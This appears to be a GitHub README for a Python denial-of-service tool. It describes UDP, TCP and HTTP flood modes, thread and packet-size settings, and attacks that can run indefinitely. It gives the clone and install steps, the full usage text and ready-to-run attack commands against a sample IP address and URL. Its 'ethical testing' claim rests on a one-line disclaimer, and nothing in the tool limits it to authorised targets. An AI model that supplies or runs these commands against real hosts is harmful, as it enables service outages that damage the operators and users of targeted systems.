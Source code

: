# Ddos-script
This is an advanced DDoS (Distributed Denial of Service) script for ethical testing purposes. The script allows you to conduct stress tests on network services using UDP, TCP, or HTTP protocols.

Features
Multi-Protocol Support: Supports UDP, TCP, and HTTP protocols.
Customizable Parameters: Adjust number of threads, packet size, attack duration, etc.
HTTP Support: Send GET or POST requests with a customizable payload.
Automatic URL Resolution: Resolve target URLs to IP addresses for HTTP attacks.
Error Handling: Comprehensive error handling for both socket errors and HTTP request exceptions.
Logging: Detailed logging of attack progress and errors.
Ethical Use: Designed for ethical testing and educational purposes.
Usage
Prerequisites
Python 3.x
Required Python libraries: requests
Installation
Clone the repository:

bash
Copier le code
git clone https://github.com/hydr0cher/ddos-script.git
cd ddos-script
Install dependencies:

Copier le code
pip install -r requirements.txt
Command Line Arguments
bash
Copier le code
usage: ddos.py [-h] [-t THREADS] [-s SIZE] [-d DURATION] [-p {tcp,udp,http}] [-r REQUEST_PATH] [-m {GET,POST}] target target_port

Advanced DDoS script for ethical testing purposes.

positional arguments:
  target                Target IP address or URL
  target_port           Target port

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS, --threads THREADS
                        Number of attacking threads (default: 10)
  -s SIZE, --size SIZE  Size of packet payload (default: 1024 bytes)
  -d DURATION, --duration DURATION
                        Duration of the attack in seconds (default: None, indefinite)
  -p {tcp,udp,http}, --protocol {tcp,udp,http}
                        Protocol to use for the attack (default: udp)
  -r REQUEST_PATH, --request-path REQUEST_PATH
                        HTTP request path (default: /)
  -m {GET,POST}, --method {GET,POST}
                        HTTP method (default: GET)
Examples
UDP Attack
bash
Copier le code
python ddos.py 192.168.1.100 80 -t 20 -s 2048 -d 60 -p udp
TCP Attack
bash
Copier le code
python ddos.py 192.168.1.100 443 -t 15 -s 1024 -d 30 -p tcp
HTTP Attack
bash
Copier le code
python ddos.py http://example.com 80 -t 10 -s 512 -d 60 -p http -r /index.html -m GET
Disclaimer
This script is intended for educational and ethical testing purposes only. The author is not responsible for any misuse or damage caused by this script.

License
This project is licensed under the MIT License - see the LICENSE file for details.

Author
Hydr0cher - GitHub
